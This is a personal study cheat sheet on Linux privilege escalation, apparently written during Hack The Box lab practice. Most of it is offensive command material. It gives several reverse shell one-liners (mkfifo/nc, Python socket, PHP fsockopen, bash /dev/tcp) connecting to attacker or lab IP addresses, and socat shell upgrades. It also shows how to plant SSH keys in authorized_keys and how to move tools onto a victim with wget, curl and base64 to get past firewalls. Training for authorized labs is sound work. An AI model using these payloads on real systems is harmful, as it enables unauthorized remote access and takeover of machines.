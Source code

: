 # Privilege Escalation  😈

## Two Types of Priv Esc  
<blockquote>
There are two common types of privilege escalation: vertical and horizontal. Vertical privilege escalation involves a user accessing files or functions that are normally associated with accounts that have higher privileges. Horizontal privilege escalation allows users to access resources in other accounts with similar privilege levels as they have.
</blockquote>



## Linux-Smart-Enumeration
* Check out the github page right <a href="https://github.com/diego-treitos/linux-smart-enumeration">here</a>.




## Most Reliable Reverse Shell Payload  
	```console
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
	```  


* Python Rev Shell  

```console
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

* Another one   

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.11",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```



## Upgrade the Reverse Shell   



* Using `socat` instead of `nc`  

	```console
	#Listener
	socat file:`tty`,raw,echo=0 tcp-listen:4444

	#Victim  
	socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.0.3.4:4444
	```  

* Using stty options (Never Worked With Me) 
	```console
	# In reverse shell 
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	ctrl-z  

	# In Kali 
	stty raw -echo  
	reset
	fg

	# In reverse shell
	
	export SHELL=bash
	export TERM=xterm-256color
	stty rows <num> columns <num2>
	```

* If we type `stty -a` it will give me info and I can get the rows and columns from there.
* I can also echo the $TERM variable and put its value in the reverse shell as the value I have on my Kali.  

## Sudo & Sudoers   

* We can use `sudo` to give the current user privilege to do something as another user as follows `sudo -u [USERNAME] [COMMAND]` by default without the `-u` option it gives the user root privilege if the user was in the sudoers file, which also can't be accessed unless the user had privilege to access it.
* To check if the user have access to use sudo, especially that sometimes a user can have access to sudo a specific command and not everything, we can use this command `sudo -l` which should open the sudoers file unless we don't have privilege to do so.   
* With regard to privilege escalation we can also exploit the sudo command itself by checking if it's version have any already existing exploits. I can get the version in multiple ways and one of these ways is to when using linPEAS.



### When Using gcc  
* The option `-Wall` is a warning option.

### SSH Keys   

* We can use ssh keys to privesc  

```console
Shatha Barqawi@htb[/htb]$ vim id_rsa
Shatha Barqawi@htb[/htb]$ chmod 600 id_rsa
Shatha Barqawi@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
```  

* This ssh key can be found in the following path if I have access to it `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`.

<blockquote>
Note that we used the command 'chmod 600 id_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.
</blockquote>   

* We can also put our public key in the directory `/home/user/.ssh/authorized_keys` if we have the permissions to do so. How to do that?  

* Create key on my machine 
	```console
	Shatha Barqawi@htb[/htb]$ ssh-keygen -f key
	```
* This will create two file `key` (which we will use with `ssh -i`) and `key.pub`(which we will copy to the remote machine).

### Transferring Files  

1. Using `wget`  
* We run a Python HTTP server on our machine and wget or cURL on the victim to download the file   

* On my machine
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```

* On victim  
  ```console
  user@remotehost$ wget http://10.10.14.1:8000/linenum.
  ```  
  OR   
  ```console
  user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  ```  

2. Using `scp`  

	```console
	scp [PATH TO FILE ON MY SYSTEM] [USERNAME]@[TARGET IP]:[PATH ON TARGET TO TRANSFER FILE TO]
	```

3. Using `base64`  
* In some cases, there might be firewall protections that prevent us from downloading a file from our machine. In such case we can use `base64` and encode the file into base64 format and then copy/paste the base64 string to the remote server and decode it there.   
  ```console
  Shatha Barqawi@htb[/htb]$ base64 shell -w 0
  ```  

  ```console
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```  

* To check that we didn't miss anything up during the encoding/deconding process we can use the command `md5sum [FILENAME]` on both machines and check if they're equal.  


### The Shells on Victims   
* We can find the shells that can be used on the victim's machine with the following command in the following file   `cat /etc/shells`.

### The `tee` Command

* Store the output of a command in a file with the following command `[COMMAND] | tee [FILE NAME]`.   

### The `dpkg -l`  Command   
* Shows the packages and libraries on the system.
* Is it exclusively used on Debian based Linux? Seems so -- not sure tho.🤔

* Write about the $PATH variable how to add to it.
```console
export PATH=$PATH:/tmp
#or
export PATH=/tmp:$PATH
```

____ 
I have to write more about this 
* SUID (Set owner User ID)



<br/>

* `[COMMAND] | tee [FILE NAME]` 
* Stores output of the command in a file.  

<br/>

* `dpkg -l`  
* Shows the packages and libraries on system.
* I think this command is only for Debian based OSes 🤔.


<br/>

* Some info on gcc  
* The option `-Wall` is a warning option.  
* ### <span class="useful_shit subtitle">Upgrading The Reverse Shell   

* The bitch machine Cronos keeps making problems for me and I can't seem to open the admin some times. So I wasn't able to test the ways I'll be mentioning next (I got them from this <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/">website</a>)  


* NetCat 
  * It can be used to scan for open ports `nc -z -v 10.10.8.8 20-80`.  


```console
php -r '$s=fsockopen("10.10.14.74",1234);shell_exec("/bin/sh -i <&3 >&3 2>&3");' 

$s=fsockopen("10.10.14.74",1234);system("/bin/sh -i <&3 >&3 2>&3");

bash -i >& /dev/tcp/10.10.14.74/1234 0>&1
```